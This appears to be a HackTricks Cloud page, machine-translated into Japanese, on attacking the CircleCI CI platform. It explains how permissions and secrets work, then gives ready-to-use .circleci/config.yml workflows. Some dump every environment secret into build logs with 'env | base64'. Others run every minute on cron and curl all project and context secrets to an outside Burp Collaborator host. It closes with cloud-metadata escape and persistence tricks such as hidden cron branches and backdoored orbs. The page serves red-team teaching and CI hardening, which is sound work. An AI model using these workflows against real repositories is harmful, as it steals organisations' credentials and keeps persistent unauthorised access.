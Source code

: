 # CircleCI セキュリティ

<details>

{% hint style="success" %}
AWS ハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP ハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks のサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に参加するか、[**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** をフォローしてください。**
* **HackTricks** と **HackTricks Cloud** の github リポジトリに PR を提出して **ハッキングトリックを共有**してください。

</details>
{% endhint %}

## 基本情報

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) は、**何を行い、いつ行うかを示すテンプレートを定義**できる**継続的インテグレーションプラットフォーム**です。これにより、**テストを自動化**したり、**リポジトリのマスターブランチから直接デプロイ**したりできます。

## 権限

**CircleCI** は、ログインしている **アカウント** に関連する github と bitbucket から**権限を継承**します。\
私のテストでは、github のリポジトリに **書き込み権限** がある限り、**CircleCI のプロジェクト設定を管理**できることを確認しました（新しい ssh キーを設定したり、プロジェクト api キーを取得したり、新しい CircleCI 設定を持つ新しいブランチを作成したり...）。

ただし、リポジトリを CircleCI プロジェクトに変換するには、**リポジトリの管理者**である必要があります。

## 環境変数とシークレット

[**ドキュメント**](https://circleci.com/docs/2.0/env-vars/)によると、ワークフロー内で**環境変数に値をロード**するための異なる方法があります。

### 組み込み環境変数

CircleCI によって実行されるすべてのコンテナには、常に[**ドキュメントで定義された特定の環境変数**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables)が含まれます。例: `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME`, `CIRCLE_USERNAME`。

### 平文

**コマンド**内で平文で宣言することができます。
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
**run environment** 内で明確なテキストで宣言することができます。
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
**build-job environment** 内で明確なテキストで宣言することができます。
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
**コンテナの環境**内で明確なテキストで宣言することができます。
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### プロジェクトの秘密

これらはプロジェクトによってのみアクセス可能な**秘密**です（どのブランチでも）。\
これらは_https://app.circleci.com/settings/project/github/\<org\_name>/\<repo\_name>/environment-variables_で宣言されているのを見ることができます。

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
"**Import Variables**"機能を使用すると、他のプロジェクトからこのプロジェクトに変数を**インポート**できます。
{% endhint %}

### コンテキストの秘密

これらは**組織全体**で共有される秘密です。**デフォルトではどのリポジトリ**もここに保存された秘密にアクセスできます。

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
ただし、異なるグループ（すべてのメンバーの代わりに）を**選択して、特定の人にのみ秘密へのアクセス権を与える**ことができます。\
これは現在、秘密のセキュリティを**向上させる最良の方法**の1つであり、誰もがアクセスできるのではなく、一部の人だけがアクセスできるようにします。
{% endhint %}

## 攻撃

### 明文テキストの秘密を検索

VCS（githubなど）への**アクセス**がある場合、各リポジトリの各ブランチの`.circleci/config.yml`ファイルをチェックし、そこに保存されている潜在的な**明文テキストの秘密**を**検索**します。

### Secret Env Vars＆コンテキストの列挙

コードをチェックすると、各`.circleci/config.yml`ファイルで使用されている**すべての秘密の名前**を見つけることができます。また、これらのファイルから**コンテキストの名前**を取得するか、Webコンソールで確認できます：_https://app.circleci.com/settings/organization/github/\<org\_name>/contexts_。

### プロジェクトの秘密を外部流出

{% hint style="warning" %}
プロジェクトとコンテキストの**すべての秘密を外部流出**するには、github組織全体の**1つのリポジトリ**に**書き込みアクセス**が必要です（_そしてあなたのアカウントはデフォルトで誰もがすべてのコンテキストにアクセスできるようにする必要があります_）。
{% endhint %}

{% hint style="danger" %}
"**Import Variables**"機能を使用すると、他のプロジェクトからこのプロジェクトに変数を**インポート**できます。したがって、攻撃者は**すべてのリポジトリからすべてのプロジェクト変数をインポート**し、それらを**一緒に外部流出**することができます。
{% endhint %}

すべてのプロジェクトの秘密は常にジョブの環境に設定されているため、envを呼び出してそれをbase64で難読化するだけで、秘密が**ワークフローのWebログコンソール**に外部流出します：
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
もし **webコンソールにアクセスできない** が **リポジトリにアクセスでき** 、CircleCIが使用されていることを知っている場合は、単に **1分ごとにトリガーされるワークフロー** を **作成して**、**シークレットを外部アドレスに持ち出す**ことができます:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### コンテキストのシークレットを外部に流出させる

**コンテキスト名を指定する必要があります**（これによりプロジェクトのシークレットも外部に流出します）:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
もしWebコンソールにアクセスできないが、リポジトリにアクセスでき、CircleCIが使用されていることを知っている場合、**1分ごとにトリガーされるワークフローを変更**して、**シークレットを外部アドレスに送信**することができます。
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
新しい`.circleci/config.yml`をリポジトリに作成するだけでは、**CircleCIのビルドをトリガーするには十分ではありません**。**CircleCIコンソールでプロジェクトとして有効にする必要があります**。
{% endhint %}

### クラウドへの脱出

**CircleCI** は、**彼らのマシンまたはあなた自身のマシンでビルドを実行するオプション**を提供します。\
デフォルトでは、彼らのマシンはGCPにあり、最初は関連する情報を見つけることはできません。ただし、被害者が**自分自身のマシンでタスクを実行している場合（おそらく、クラウド環境で）**、**興味深い情報が含まれているクラウドメタデータエンドポイント**を見つけることができるかもしれません。

前の例ではすべてがDockerコンテナ内で起動されましたが、**VMマシンを起動するように依頼することもできます**（異なるクラウド権限を持っている可能性があります）:
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
またはリモートDockerサービスへのアクセス権を持つDockerコンテナ：
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### 持続性

* **CircleCIでユーザートークンを作成**して、ユーザーアクセスでAPIエンドポイントにアクセスすることが可能です。
* _https://app.circleci.com/settings/user/tokens_
* プロジェクトトークンを作成して、トークンに与えられた権限でプロジェクトにアクセスすることが可能です。
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* プロジェクトにSSHキーを追加することが可能です。
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* 予期しないプロジェクトの隠しブランチに**クロンジョブを作成**して、毎日すべての**コンテキスト環境変数を漏洩**させることが可能です。
* または、既知のジョブをブランチに作成/変更して、毎日すべてのコンテキストと**プロジェクトのシークレットを漏洩**させることが可能です。
* GitHubの所有者であれば、**未検証のorbを許可**し、ジョブで**バックドア**として構成することが可能です。
* 特定のタスクで**コマンドインジェクションの脆弱性**を見つけ、その値を変更して**シークレットを注入**することが可能です。
